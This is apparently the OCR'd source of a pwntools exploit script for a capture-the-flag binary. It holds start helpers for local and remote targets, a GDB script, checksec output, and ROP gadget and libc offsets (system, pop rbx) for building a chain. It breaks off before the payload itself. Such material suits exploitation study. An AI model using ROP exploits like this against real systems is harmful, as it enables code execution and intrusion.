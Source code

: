 ```python
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
b main
b *0x0000000000401211
continue
set $tsp=$rsp
define tle
tele $tsp
end
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

PUSH_RBP_MOV_RBP_RSP_poprcx = 0x40117a
MOV_RBP_RSP_poprcx = 0x40117b
ADD_EAX_0x2ec3_addrbp0x3debx = 0x401157
ADD_RPBs0x3d_EBX = 0x40115c
ADD_AH_DH = 0x4010b4
ADD_BL_DH = 0x4010bf
POP_RBP = 0x401181
ADD_RSP_8 = 0x401230
RET = 0x401234
POP_RCX = 0x40117e
ADD_BPRCX_AL_poprbp = 0x40115b
MOV_EAX_0_LEAVE = 0x401221

PRINT_CALL = 0x401211

LIBC_POP_RBX = 0x83e21
SYSTEM = 0x58750

writeable = 0x404500
```